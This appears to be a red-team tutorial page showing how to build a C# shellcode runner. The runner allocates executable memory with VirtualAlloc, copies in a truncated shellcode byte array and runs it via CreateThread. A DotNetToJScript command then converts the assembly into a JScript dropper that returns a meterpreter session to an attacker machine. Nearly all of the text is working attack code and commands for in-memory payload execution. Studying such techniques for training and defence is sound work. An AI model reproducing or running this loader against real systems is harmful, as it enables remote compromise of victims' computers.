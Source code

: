 ## The ol' trilogy 
 We can reuse the shellcode runner technique from both VBA and PowerShell and combine _VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_ to execute shellcode in memory.

 We start by importing the 3 Win32 APIs with DLLImport.

 ```C#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, 
    uint flProtect);

[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

We then generate our shellcode and store it in a variable.
We then use _Marshal.Copy_ method to copy our shellcode:
 ```C#
byte[] buf = new byte[626] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8...

int size = buf.Length;

IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

Marshal.Copy(buf, 0, addr, size);
```

And finish off by using _CreateThread_ and _WaitForSingleObject_ API to finish the execution:
```C#
IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

WaitForSingleObject(hThread, 0xFFFFFFFF);
```

## Placement
For the placement for the above pieces of code it would look something like as follows:
```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    

	public TestClass()
    {
        byte[] buf = new byte[602] {
        0xfc,0x48,.....0xff,0xd5 };

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}


```

We then compile the binary as jscript:
```cmd
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```

Executing the shell we get a meterpreter session on our attack machine:

![js-shell-ret](../../../Screenshots/js-shell-ret.png)